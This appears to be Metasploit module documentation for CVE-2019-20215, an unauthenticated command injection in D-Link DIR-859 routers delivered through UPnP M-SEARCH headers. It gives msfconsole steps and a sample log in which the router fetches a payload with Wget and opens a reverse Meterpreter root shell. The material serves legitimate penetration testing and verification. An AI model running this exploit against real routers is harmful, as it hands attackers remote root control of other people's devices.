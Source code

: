 ## Vulnerable Application

### Introduction

This module exploits CVE-2019–20215, an unauthenticated remote injection of operating system commands.
The vulnerability was found in the ssdpcgi() function, and the payload can be injected through either the UUID
or URN headers of a M-SEARCH UPnP request.

Get a [D-Link router/vulnerable firmware](https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10147),
or download firmware versions 1.06 or 1.05 and run them on firmadyne or similar emulation frameworks.

## Verification Steps

1. Set up router/emulated device
2. Start `msfconsole`
3. Do: `use exploit/linux/http/dlink_dir859_exec_ssdpcgi`
4. Do: `set RHOSTS <router_ip>`
5. Do: `set LHOST <local_ip>`
6. Do: `set TARGET <URN/UUID>`
7. Do: `run`
8. You should get a session as `root`.

## Options

**VECTOR**

This option denotes which header will be used in the request (UUID or URN)
that triggers the vulnerability.

## Scenarios

### D-link DIR-859 Firmware 1.05

```
msf exploit(linux/http/dlink_dir859_exec_ssdpcgi) > run 
[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Using URL: http://0.0.0.0:8080/38YWEX2
[*] Local IP: http://192.168.70.28:8080/38YWEX2
[*] Target Payload URN
[*] Client 192.168.0.1 (Wget) requested /38YWEX2
[*] Sending payload to 192.168.0.1 (Wget)
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.1:41057) at 2029-12-31 14:15:22 -0300
[*] Server stopped.
meterpreter > 
```
